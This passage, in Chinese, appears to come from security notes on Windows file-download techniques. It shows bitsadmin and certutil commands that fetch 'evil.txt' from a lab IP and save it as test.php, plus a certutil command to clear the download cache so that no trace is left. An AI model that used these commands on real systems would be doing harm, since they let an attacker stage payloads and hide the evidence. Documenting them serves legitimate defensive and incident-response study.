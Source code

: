 
# 2、Bitsadmin
bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
```

输入以上命令，成功下载文件。<br />![20200413-2.png](../../_img\05-应急响应/1656916361122-fd389a14-8de0-4703-b9aa-95966754c883.png)


# 3、certutil
用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"
```
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```
![20200413-3.png](../../_img\05-应急响应/1656916368843-0fdb76df-de28-423d-88e7-657784c6f5df.png)
